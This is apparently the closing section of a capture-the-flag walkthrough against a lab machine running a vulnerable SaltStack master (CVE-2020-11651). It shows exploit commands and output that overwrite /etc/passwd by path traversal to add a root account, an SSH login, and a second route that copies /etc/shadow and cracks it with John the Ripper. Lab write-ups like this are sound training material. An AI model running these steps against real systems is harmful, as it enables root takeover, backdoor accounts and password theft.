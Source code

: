```bash
named:x:25:25:Named:/var/named:/sbin/nologin
```

Upload the modified passwd file back to the target:

```bash
python3 exploit.py --master 192.168.111.62 --upload-src ../passwd --upload-dest  ../../../../../../../../../../../etc/passwd
```

Output:

```
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
/home/kali/share/twiggy/CVE-2020-11651/salt/salt/utils/gitfs.py:149: DeprecationWarning: distutils Version classes are deprecated. Use packaging.version instead.
  GITPYTHON_MINVER = _LooseVersion("0.3")
/home/kali/share/twiggy/CVE-2020-11651/salt/salt/transport/zeromq.py:44: DeprecationWarning: zmq.eventloop.ioloop is deprecated in pyzmq 17. pyzmq now works with default tornado and asyncio eventloops.
  import zmq.eventloop.ioloop
[+] Checking salt-master (192.168.111.62:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... YES
[*] root key obtained: MM+k7kuD8qK7uY/FCqn+L+gPc6ScqcoJBfVShUUA3KGay3i/woG7skNXpMmON4009lLtSZ9DRlk=
[+] Attemping to upload ../passwd to ../../../../../../../../../../../etc/passwd on 192.168.111.62
[ ] Wrote data to file /srv/salt/../../../../../../../../../../../etc/passwd

```

SSH into the new account:

```bash
ssh root2@192.168.111.62
```

Print the proof:

```
cat proof.txt
```


### Alternative

**First**, save /etc/passwd and john /etc/shadow from the victim machine to the attacker machine.

**Second**, use unshadow to put users and passwords in the same file:

```bash
unshadow passwd shadow > crackme
# passwd: file saved with /etc/passwd content.
# shadow: file saved with /etc/shadow content.
```

**Third**, run johtheripper. You can use a list of users or specific ones brute force:

```bash
# Dictionary attack
john -wordlist=/usr/share/wordlists/rockyou.txt -users=root -rules crackme
```

